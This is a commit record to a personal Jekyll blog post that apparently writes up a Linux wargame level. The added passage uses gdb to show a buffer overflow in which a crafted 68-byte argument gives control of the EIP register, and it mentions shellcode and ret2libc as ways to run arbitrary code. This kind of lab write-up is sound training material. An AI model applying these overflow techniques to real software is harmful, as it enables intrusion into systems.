

Before and after one commit to KevinCarroll7737/kevincarroll7737.github.io, a Jekyll site: the page built from _posts/2019-08-23-R0-Pwnage-Linux-level3.markdown, in a window 1280 px wide and 900 px high, scrolled down 2927 px. Shown: the whole window, without its empty margins (203-1076 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2019-08-23-R0-Pwnage-Linux-level3.markdown

````diff
--- a/_posts/2019-08-23-R0-Pwnage-Linux-level3.markdown
+++ b/_posts/2019-08-23-R0-Pwnage-Linux-level3.markdown
@@ -154,6 +154,31 @@ String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
 Segmentation fault
 ```
 
+With gdb it is possible to see that the EIP register can be controlled from 69th byte to 72nd byte
+
+```bash
+Starting program: /levels/level3 `python -c 'print "\x41" * 68 + "CCCC"'` `python -c 'print "\x42" * 128'`
+(gdb)
+0x43434343 in ?? ()
+(gdb) info registers
+eax            0x0  0
+ecx            0x7ffffee0   2147483360
+edx            0xf7fcd870   -134424464
+ebx            0x0  0
+esp            0xffffdbc0   0xffffdbc0
+ebp            0x41414141   0x41414141
+esi            0xf7fcc000   -134430720
+edi            0xf7fcc000   -134430720
+eip            0x43434343   0x43434343 <---------
+eflags         0x286    [ PF SF IF ]
+cs             0x23 35
+ss             0x2b 43
+ds             0x2b 43
+es             0x2b 43
+fs             0x0  0
+gs             0x63 99
+```
+
 Several methods can make it possible to execute arbitrary code, in particular by using a global variable in which there is a shellcode and the address is known beforehand. Although, I prefered to play a bit more with the basic gdb commands on the server to get more familiar w/ the basics and `ret2libc`.
 
 ```bash
````
